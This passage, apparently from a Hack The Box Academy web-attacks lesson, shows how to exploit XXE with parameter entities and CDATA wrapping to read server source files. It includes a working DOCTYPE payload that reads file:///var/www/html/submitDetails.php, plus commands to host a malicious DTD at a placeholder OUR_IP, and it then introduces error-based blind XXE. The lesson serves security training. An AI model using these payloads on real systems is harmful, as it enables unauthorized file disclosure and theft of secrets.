 To bypass this limitation, we can utilize **XML Parameter Entities**, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:
```
user@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
user@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file:
![web_attacks_xxe_php_cdata](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

Note: In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks. **Try to use this trick to read other files**.

### Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be **blind** to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.
